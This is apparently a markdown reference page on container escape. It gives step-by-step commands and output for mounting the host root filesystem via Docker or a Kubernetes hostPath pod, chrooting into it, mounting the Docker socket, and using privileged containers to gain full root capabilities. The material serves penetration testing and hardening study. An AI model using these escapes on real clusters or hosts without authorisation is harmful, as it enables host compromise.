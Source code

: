 # HostPath
Abusing HostPath to escape containers.

---

## Mounting Root Volumes Inside Containers

### Docker
Run an alpine container with root filesystem mounted under `/host` in the container
```
$ docker run --rm -it -v /:/host alpine:latest /bin/sh
$ / # cat /etc/os-release
NAME="Alpine Linux"
ID=alpine
VERSION_ID=3.12.0
PRETTY_NAME="Alpine Linux v3.12"
HOME_URL="https://alpinelinux.org/"
BUG_REPORT_URL="https://bugs.alpinelinux.org/"
```

Changing my root directory to the `/host` directory with `chroot` allows us to break out of the container.
```
/ # ls
bin    etc    host   media  opt    root   sbin   sys    usr
dev    home   lib    mnt    proc   run    srv    tmp    var

/ # chroot /host bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
root@3396f9188944:/# 
```
Show release information has changed to Ubuntu (WSL)
```
root@3396f9188944:/# cat /etc/os-release
NAME="Ubuntu"
VERSION="20.04.1 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.1 LTS"
VERSION_ID="20.04"
...<snip>...
```

Access to drives on the host
```
$ root@3396f9188944:/# df -h
Filesystem      Size  Used Avail Use% Mounted on
/dev/sdb        251G   28G  211G  12% /
tools           1.8T  1.7T  131G  93% /init
none             13G     0   13G   0% /dev
tmpfs            13G     0   13G   0% /sys/fs/cgroup
...<snip>...
tmpfs            13G     0   13G   0% /mnt/wsl
C:\             1.8T  1.7T  131G  93% /mnt/c
D:\             112G   11G  102G  10% /mnt/d
```

### Kubernetes
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: noderoot
spec:
  containers:
  - name: noderoot
    image: raesene/alpine-containertools
    imagePullPolicy: Always
    volumeMounts:
    - name: root
      mountPath: "/host"
  volumes:
  - name: root
    hostPath: 
      path: "/"
```
Exec into pod to see mounted host directory just like docker
```
$ kubectl apply -f noderoot.yaml
pod/noderoot created

$ kubectl exec -it pod/noderoot -- /bin/bash
bash-5.0# chroot /host bash
[root@noderoot /]# 
```

`chroot` onto the host
```
[root@noderoot /]# cat /etc/os-release
NAME=Fedora
VERSION="33.20210104.3.1 (CoreOS)"
ID=fedora
VERSION_ID=33
VERSION_CODENAME=""
PLATFORM_ID="platform:f33"
PRETTY_NAME="Fedora CoreOS 33.20210104.3.1"
...<snip>...
```

### Docker Socket
The docker socker on the host is located at `/var/run/docker.sock`. Mounting this inside a container will allow processes running inside the container to interact with the docker daemon, and run additional containers.
```
$ docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock docker /bin/sh
/ # docker version
Client: Docker Engine - Community
 Version:           20.10.2
 API version:       1.41
 Go version:        go1.13.15
 Git commit:        2291f61
 Built:             Mon Dec 28 16:11:26 2020
 OS/Arch:           linux/amd64
 Context:           default
 Experimental:      true
...<snip>...
```

We can even see our own container running.
```
/ # docker ps
CONTAINER ID   IMAGE     COMMAND                  CREATED              STATUS              PORTS     NAMES
e52efd14f85c   docker    "docker-entrypoint.s…"   About a minute ago   Up About a minute             dreamy_poincare
```

### Privileged Containers
Although we have complete access to the hosts filesystem, we still lack some capabilities we'd want to completely bypass all restrictions of the container and get true `root`.

Use `capsh` to show some capabilities are missing, such as `cap_sys_admin`, the biggest bundle of privileges.
```
root@3396f9188944:/# capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Ambient set =
```

Run the container again, but using privileged flag and see we have `cap_sys_admin` and have truely broken out as `root`.
```
$ docker run --rm -it --privileged -v /:/host alpine:latest /bin/sh
/ # chroot /host bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@33507db52673:/# capsh --print
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
...
```

---

## References
- [Linux Capabilities](https://linux-audit.com/linux-capabilities-101/)
- [The Path Less Traveled: Abusing K8s Defaults - Ian Coldwater & Duffy Cooley](https://www.youtube.com/watch?v=HmoVSmTIOxM)
- [Seccomp Security Profiles and You - Duffy Cooley](https://www.youtube.com/watch?v=OPuu8wsu2Zc)
- [Kubernetes Goat - Intentional Vulnerable K8s Cluster](https://github.com/madhuakula/kubernetes-goat)